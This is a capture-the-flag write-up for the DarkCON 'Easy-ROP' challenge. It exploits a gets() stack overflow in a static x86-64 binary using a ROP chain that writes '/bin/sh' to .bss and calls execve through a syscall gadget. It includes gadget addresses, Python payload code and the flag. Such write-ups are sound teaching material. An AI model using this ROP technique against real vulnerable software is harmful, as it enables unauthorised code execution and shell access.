 # [DarkCON CTF] Easy-ROP

## Info

+ 84 solves / 441 points

Welcome to the world of pwn!!! This should be a good entry level warmup challenge !! Enjoy getting the shell

## Summary

+ stack buffer overflow
+ ret2libc
+ ret2syscall

## File

+ Arch : x86-64
+ Library : statically linked

## Checksec

+ CANARY : Enabled
+ FORTIFY : Disabled
+ NX : Enabled
+ PIE : Disabled
+ RELRO : Partial

## Description

There is one simple function.

+ main

Stack buffer overflow occurs by gets()

## Exploit

**ROPgadget**

```python
syscall = 0x004012d3
prax = 0x004175eb
prdi = 0x0040191a
prsi = 0x0040f4be
prdx = 0x0047560e
```

There are lots of gadgets to control system call at given binary. Therefore, challenge can be solved easily if "/bin/sh" exists.

**Write binsh at bss**

```python
payload = b"A"*0x48
payload += p64(prdi)
payload += p64(bss)
payload += p64(gets)
p.sendline(payload)

payload = b"/bin/sh\x00"
p.sendline(payload)
```

We can get address of "/bin/sh" by writing it using gets().

**Call system("/bin/sh") using syscall gadget**

```python
payload += p64(prdi)
payload += p64(bss)
payload += p64(prsi)
payload += p64(0)
payload += p64(prdx)
payload += p64(0) + p64(0) + p64(0)
payload += p64(prax)
payload += p64(0x3b)
payload += p64(syscall)
p.sendline(payload)
```

Now we can get shell with syscall and binsh.

## Flag

+ darkCON{w0nd3rful_m4k1n9_sh3llc0d3_us1n9_r0p!!!}
